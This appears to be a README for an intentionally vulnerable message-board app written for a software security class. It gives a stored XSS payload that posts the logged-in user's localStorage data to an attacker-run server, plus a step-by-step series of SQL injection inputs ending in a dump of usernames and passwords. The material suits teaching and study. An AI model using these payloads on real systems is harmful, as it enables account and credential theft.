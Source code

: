 This is a simple web app that I build for a Software Security class peresentation. It is vulnerable to cross-site scripting attacks, as well as SQL injection attacks. The app is a simple ‘message board’, where users are able to log in and see what other users have posted, and can post their own messages. Users are also able to search for specific messages that have been posted in the past using the search functionality.

When a user logs in, they can refresh the page are able to remain logged in. This is accomplished by the user of the browsers built-in ‘local storage’ functionality. When the user first logs in, an identifying object is saved in the browser’s local storage. When the app is refreshed, it checks to see if there is an identifying object saved in local storage, and if there is, it retrieves the user’s information.

## XSS Attack
The application is vulnerable to XSS attacks because it is not sanitizing the input when a user creates a new message. This is evident when the user creates a message that includes HTML tags, such as the <b> or <i> tag. This will change the way application renders the message.
Using this information, as well as the fact that the user remains logged into the application across page refreshes, we can build an attack to steal other users identifying information. If an attacker creates the following message with the content below, they will be able to see what local storage keys are currently in use by the application. Note that in order for this script to run, the attacker must refresh the page, since the browser will not execute script tags that get appended to the document once it has already been rendered.

```
<script>console.log(Object.keys(localStorage))</script>
```

That attacker will see in the console that the only key being used is ‘user’. Creating a new message with the following content will reveal the contents of local storage.

```
<script>console.log(JSON.parse(localStorage.getItem('user')))</script>
```

Now the attacker can see their identifying information, but they really want other user’s information. The attacker can set up their own server that listens for requests, and then create a message with a script that will send the currently logged in user’s information to the attacker’s server. The contents of the message would be similar to the following script.


```
<script>
let params = {
	headers: {
		'content-type': 'application/json; charset=UTF-8'
	},
	body: JSON.stringify({ content: localStorage.getItem('user') }),
	method: 'POST',
}
fetch('http://127.0.0.1:3001/victim', params)
</script>
```

Now whenever any user logs in, a request will be sent to the attacker’s server that contains the currently logged in user’s information.

There are multiple ways to fix this issue. For my presentation, all I had to do was change the syntax in one of my rendered view files to escape all HTML tag characters.

## SQL Injection
As previously mentioned, the application also has a search functionality. An attacker can input the following search values into the search box to accomplish the described actions.

```
';--
```
Action: Show that the application is vulnerable to SQL injection.

```
' UNION (SELECT 1, 2, 3 FROM dual); --
```
Action: Confirm that database is MySQL, and that the injection strategy will work.

```
' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables); --
```
Action: Get all table names and their associated schemas.

```
' UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --
```
Action: Get all column names for the table named ‘users’.

```
' UNION (SELECT username, password, first_name FROM users); --
```
Action: Get all usernames, passwords, and first names, from the users table.
